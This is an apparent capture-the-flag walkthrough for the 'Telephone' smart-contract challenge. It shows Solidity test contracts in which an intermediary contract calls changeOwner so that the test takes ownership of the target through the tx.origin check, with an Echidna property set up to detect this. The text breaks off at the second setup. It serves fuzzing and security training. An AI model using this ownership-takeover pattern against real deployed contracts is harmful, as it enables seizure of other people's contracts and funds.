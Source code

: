 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

The objective is to take ownership of the target.

## Setup 1
## Test Setup 1

In this test, we will use two contracts and the test contract's constructor to take ownership of the target.
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Test Setup 2
In this setup, the fuzzer will call both 